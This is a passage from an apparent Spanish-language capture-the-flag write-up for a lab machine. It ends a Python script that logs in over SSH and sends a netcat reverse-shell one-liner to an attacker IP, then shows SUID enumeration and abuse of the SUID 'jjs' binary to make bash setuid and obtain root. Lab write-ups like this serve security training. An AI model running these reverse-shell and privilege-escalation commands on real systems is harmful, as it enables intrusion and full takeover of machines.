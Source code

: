```python
                p2.status(password)
                break

    return password

def sshConnection(username, password):

    s = pxssh.pxssh()
    s.login('10.10.10.162', username, password)
    s.sendline("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 443 >/tmp/f")
    s.prompt()
    s.logout()

if __name__ == '__main__':

    password = makeRequest()

    try:
        threading.Thread(target=sshConnection, args=('mango', password)).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    shell.interactive()
```## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
find \-perm -4000 2>/dev/null
ls -la ./usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

Aqui vemos que tenemos privilegios SUID sobre el binario `jjs` de java. Buscamos en [gtfobins](https://gtfobins.github.io/gtfobins/jjs/#suid)
como escalar el privilegio con jjs. 

```bash
echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod 4755 /bin/bash').waitFor()" | jjs
bash -p
whoami
#Output
root
```

Ya podemos leer el **root.txt**

